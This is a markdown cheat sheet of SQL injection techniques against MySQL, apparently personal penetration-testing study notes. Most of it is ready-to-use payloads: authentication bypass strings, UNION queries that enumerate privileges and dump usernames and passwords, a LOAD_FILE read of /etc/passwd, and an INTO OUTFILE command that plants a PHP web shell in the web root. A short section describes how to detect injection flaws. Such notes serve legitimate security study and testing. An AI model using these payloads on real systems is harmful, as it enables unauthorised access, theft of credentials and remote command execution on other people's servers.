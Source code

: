 ## MySQL
### syntax cheatsheets 
- https://gist.github.com/bradtraversy/c831baaad44343cc945e76c2e30927b3
- https://devhints.io/mysql

### injection cheatsheets
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet 


## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |



## How to detect SQL injection vulnerabilities
- Submitting the single quote character `'` and looking for errors or other anomalies
- Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
- Submitting Boolean conditions such as `OR 1=1` and `OR 1=2`, and looking for differences in the application's responses.
- Submitting payloads designed to trigger time delays when executed within a SQL query, and looking for differences in the time taken to respond.
- Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitoring for any resulting interactions.
- [detection list](https://github.com/kiro6/penetration-testing-notes/blob/main/web%20pentest/Sql%20Injection/detect_prefixes.txt)

## sqli types source [sqli module htb academy](https://academy.hackthebox.com/module/details/33) 
![types_of_sqli](https://github.com/kiro6/penetration-testing-notes/assets/57776872/494a904c-156d-4d61-a25a-f94f7be0c650)

## Database Enumeration
```mysql
#Version
SELECT @@version   

# Current User
SELECT user();
SELECT system_user();

# List Users
SELECT user FROM mysql.user;    => need priv

# List Password Hashes
SELECT host, user, password FROM mysql.user;    => priv

# Current Database
SELECT database()
```

- information_schema.schemata => This table contains information about all the schemas (databases) present in the MySQL server
```mysql
SELECT schema_name, default_character_set_name
FROM information_schema.schemata;
```
- information_schema.tables => This table contains information about all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, table_type
FROM information_schema.tables;
```
- information_schema.columns => This table contains information about all the columns within all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, column_name, data_type
FROM information_schema.columns;
```

```mysql
# List Databases
SELECT schema_name FROM information_schema.schemata; 

# list all tables
SELECT table_name  FROM information_schema.tables;
SELECT table_name  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ;

# list all tables in specfic databse (ex:secret)
SELECT table_name  FROM information_schema.tables WHERE table_schema = 'secret' ;

# Find Tables From Column Name (ex:username)
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username';

# List all Columns 
SELECT table_schema, table_name, column_name FROM information_schema.columns ; 
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

# List all Columns in specfic databse (ex:secret)
SELECT  table_name, column_name FROM information_schema.columns WHERE table_schema = 'secret'

# List all Columns in specfic table (ex:users)
SELECT table_schema, column_name FROM information_schema.columns WHERE table_name = 'users' 


```

## UNION BASED
### Determining the number of columns
```
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False => Query is only using 3 columns OR ERROR

1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False => Query is only using 3 columns OR ERROR

' UNION SELECT NULL,NULL,NULL--       #False OR ERROR
' UNION SELECT NULL,NULL,NULL,NULL--  #True Query is only using 4 columns
```
- note the unioned data types in each column must be compatible between the original

### Finding columns with a useful data type
if unioned data type is the same as orginal the the application's response will contain some additional content including the injected string value
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
### Retrieve Interesting Data
```mysql
# retrive data
' UNION SELECT username, password FROM users--

# retrive data in single column 
' UNION SELECT CONCAT(username,"~",password) FROM users--
```

